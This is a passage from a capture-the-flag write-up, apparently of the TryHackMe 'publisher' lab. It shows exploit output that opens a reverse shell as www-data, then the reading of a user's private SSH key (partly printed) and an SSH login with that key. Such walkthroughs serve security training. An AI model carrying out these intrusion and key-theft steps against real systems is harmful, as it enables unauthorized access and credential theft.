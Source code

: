 ```terminal
[+] The target appears to be vulnerable.                                                                                                                                                                           
[*] Got anti-csrf token: AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx                                                                                          
[*] 10.10.16.40:80 - Attempting to exploit...       
[*] Command shell session 1 opened (10.9.4.213:9001 -> 10.10.16.40:34354) at 2024-09-30 12:06:54 +0100                                                                                                             
                                                                                                                                                                                                                   
id                                                  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got a shell.

## **Privilege Escalation**

### www-data -> think

We found one user on the machine, and checking their directory we find and readable private ssh key.

```terminal
ls .ssh                                             
authorized_keys                                                                                                                                                                                                    
id_rsa                                                                                                                                                                                                             
id_rsa.pub                                          
cat .ssh/id_rsa                                                                                          
-----BEGIN OPENSSH PRIVATE KEY-----                                                                      
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn                                   
NhAAAAAwEAAQAAAYEAxPvc9pijpUJA4olyvkW0ryYASBpdmBasOEls6ORw7FMgjPW86tDK                                   
uIXyZneBIUarJiZh8VzFqmKRYcioDwlJzq+9/2ipQHTVzNjxxg18wWvF0WnK2lI5TQ7QXc                                   
OY8+1CUVX67y4UXrKASf8l7lPKIED24bXjkDBkVrCMHwScQbg/nIIFxyi262JoJTjh9Jgx                                   
SBjaDOELBBxydv78YMN9dyafImAXYX96H5k+8vC8/I3bkwiCnhuKKJ11TV4b8lMsbrgqbY
[...]
```

We copy the key to our machine, give it the right permission and connect with it.

```terminal
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/publisher]                                                                                                                                                            
└──╼ [★]$ ssh -i id_rsa think@10.10.16.40                                                                                                                                                                          
The authenticity of host '10.10.16.40 (10.10.16.40)' can't be established.                                                                                                                                         
ED25519 key fingerprint is SHA256:Ndgax/DOZA6JS00F3afY6VbwjVhV2fg5OAMP9TqPAOs.                                                                                                                                     
```